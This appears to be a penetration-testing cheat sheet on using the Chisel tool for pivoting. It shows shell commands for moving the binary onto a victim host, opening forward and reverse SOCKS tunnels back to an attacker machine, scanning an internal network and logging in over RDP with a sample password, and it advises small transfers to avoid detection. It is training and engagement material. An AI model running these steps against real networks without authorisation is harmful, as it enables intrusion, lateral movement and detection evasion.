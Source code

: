 ```yaml
---
description: >-
  Chisel is a TCP/UDP-based tunneling tool written in Go that uses HTTP to
  transport data that is secured using SSH. Chisel can create a client-server
  connection in a firewall restricted environment.
---
```


# Chisel

<mark style="color:red;">**IMPORTANT:**</mark>** We need to be mindful of the size of files we transfer onto targets, not just for performance reasons but also considering detection. Some useful links to proceed:**

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}

## **Installing Chisel**

### Clone Repository

```shell-session
attacker@kali$ git clone https://github.com/jpillora/chisel.git
```

### B**uilding the Chisel Binary**

```shell-session
attacker@kali$ cd chisel
go build
```

## Transfer Chisel Binary to Victim

**Transferring Chisel Binary with SCP, A Web Server, or other methods of choice.**

```shell-session
attacker@kali$ scp chisel victim@10.129.202.64:~/home/victim
```

## **Running Chisel Server - Jump Host Server**

**We start a chisel server for a client to connect to.**

```shell-session
victim@ubuntu$ ./chisel server -v -p 1234 --socks5
```

<mark style="color:red;">**NOTE:**</mark> This can be on jump host, kali host, or whichever host we need it for.&#x20;

Chisel will listen for incoming connections on port 1234 using SOCKS5 (--socks5) and _**forward it to all the networks that are accessible on the pivot host.**_

## Running Chisel Client

<mark style="color:red;">**NOTE:**</mark> we can also run the chisel server on the Kali host.

```shell-session
attacker@kali$ ./chisel client -v 10.129.202.64:1234 socks
2022/05/05 14:21:18 client: Connecting to ws://10.129.202.64:1234
2022/05/05 14:21:18 client: tun: proxy#127.0.0.1:1080=>socks: Listening
2022/05/05 14:21:18 client: tun: Bound proxies
2022/05/05 14:21:19 client: Handshaking...
2022/05/05 14:21:19 client: Sending config
2022/05/05 14:21:19 client: Connected (Latency 120.170822ms)
2022/05/05 14:21:19 client: tun: SSH connected
```

In the above output, the Chisel client creates a TCP/UDP tunnel via HTTP using SSH between the Chisel server and the client and starts a listener on local port 1080. _**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_\


```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## Chisel Reverse Pivot - Kali Server

In the previous example, we transfered a chisel binary to the compromised victim machine and started a listener on port 1234. Commonly, there will be scenarios where firewalls restrict inbound connections to our target. In such cases, we can use Chisel with the reverse tunnel option.

With the Chisel --reverse (-R) enabled, The server (attack host) will listen and accept connections and then be proxied through the client.

### S**tarting the Chisel Server on our Attack Host**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ sudo ./chisel server --reverse -v -p 1234 --socks5
</strong></code></pre>

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

### C**onnecting the Chisel Client to our Attack Host**

```shell-session
victim@ubuntu$ ./chisel client -v <kali-ip>:1234 R:socks
```

_<mark style="color:red;">**NOTE:**</mark>** **<mark style="color:yellow;">**Chisel opens a port**</mark>** **<mark style="color:red;">**1080**</mark>** **<mark style="color:yellow;">**that we will use.**</mark>_

_**Now we can modify proxychains.conf and add 1080 port so we can use it to pivot between 1080 and the tunnel.**_

```shell-session
$ tail -f /etc/proxychains.conf 
...
# socks4 	127.0.0.1 9050
socks5 127.0.0.1 1080
```

**Pivoting / Attacking the DC**

<pre class="language-shell-session"><code class="lang-shell-session"><strong>attacker@kali$ proxychains nmap 172.16.5.1-200 -sn -v
</strong></code></pre>

```shell-session
attacker@kali$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```



### **Port Forwarding an Internal Web Service.**

Sometimes we may want to port foward a direct port back to our reverse port forward. We can use the syntax: **R:localport:remotehost:remoteport.**

<mark style="color:red;">**NOTE:**</mark> <mark style="color:yellow;">**This is useful if we want to access an internal**</mark>** **<mark style="color:red;">**web service**</mark>** **<mark style="color:yellow;">**on our local machine through 127.0.0.1**</mark>

```powershell
C:\Users\marcus> chisel.exe client 192.168.119.5:8080 R:80:172.16.6.241:80

2022/10/11 07:22:46 client: Connecting to ws://192.168.119.5:8080
2022/10/11 07:22:46 client: Connected (Latency 11.0449ms)
```

#### We can navigate to 127.0.0.1 and see the portforwarded web service

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

We may need to upate our /etc/hosts to fit the domain name.
